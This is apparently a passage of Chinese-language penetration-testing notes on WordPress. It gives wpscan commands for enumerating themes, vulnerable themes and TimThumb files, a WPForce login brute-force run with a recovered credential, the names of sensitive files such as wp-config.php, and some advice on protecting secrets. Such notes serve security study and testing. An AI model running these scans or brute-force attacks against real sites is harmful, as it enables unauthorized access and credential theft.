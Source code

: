   - 对主题进行扫描  

```
wpscan --url http://192.168.15.176/wordpress --enumerate t
```

  - 扫描主题中存在的漏洞  

```
wpscan --url http://192.168.15.176/wordpress --enumerate vt
```

TimThumbs文件扫描  
TimThumbs是wordpress的常用文件，主要和缩略图的使用有关

```sh
wpscan --url http://192.168.15.176/wordpress --enumerate tt
```

##### WPForce爆破

项目地址
```
https://github.com/n00py/WPForce
proxychains4 git clone https://github.com/n00py/WPForce.git
```
密码字典合集：
```
https://github.com/danielmiessler/SecLists
```
开始爆破
```
python wpforce.py -i user.txt -w password.txt -u http://192.168.253.182:8000/

{'bob': 'Welcome1'}
```
##### wordpress 敏感文件

```
wordpress搭建的网站数据库账号密码会记录在/etc/wordpress/config-default.php
```

在WordPress中，敏感文件包括`wp-config.php`、`wp-login.php`、`wp-includes/`和`wp-admin/`目录下的文件。这些文件如果泄露，可能会导致安全问题，例如，通过`wp-config.php`文件可以直接访问数据库，通过`wp-login.php`可以尝试进行登录攻击


1. 使用 `.env` 文件：  
    在 WordPress 项目的根目录创建一个 `.env` 文件，然后在其中保存你的敏感信息，例如数据库凭证和密码。WordPress 有一个插件叫做 "wp-env"，它可以帮助你加载 `.env` 文件中的变量。
    
2. 使用 `wp-config.php` 文件：  
    在 WordPress 的根目录中，你可以使用 `wp-config.php` 文件来定义常量或变量，但要确保不要将其提交到版本控制系统中。
    
3. 使用环境变量：  
    在服务器上设置环境变量，然后在 WordPress 配置文件中引用这些变量。
    
4. 使用加密方法：  
    对于密码等敏感信息，使用加密方法来保存和验证，例如使用 PHP 的 `password_hash()` 和 `password_verify()` 函数。
    
5. 使用安全插件：  
    使用 WordPress 插件来增强安全性，这些插件可以帮助你保护密码、防止暴力破解等。
    